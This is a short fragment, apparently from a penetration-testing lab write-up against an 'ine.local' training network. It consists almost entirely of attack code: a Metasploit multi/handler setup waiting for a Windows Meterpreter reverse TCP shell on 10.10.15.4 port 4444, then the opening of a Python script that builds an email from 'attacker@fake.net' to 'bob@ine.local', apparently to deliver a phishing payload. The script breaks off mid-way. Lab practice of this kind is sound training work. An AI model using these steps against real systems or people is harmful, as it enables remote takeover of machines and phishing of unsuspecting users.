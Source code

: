 ```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.4
set LPORT 4444
exploit
```

- python > send_email.py

```python

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
fromaddr = "attacker@fake.net"
toaddr = "bob@ine.local"  
# instance of MIMEMultipart
msg = MIMEMultipart()
# storing the senders email address  
msg['From'] = fromaddr
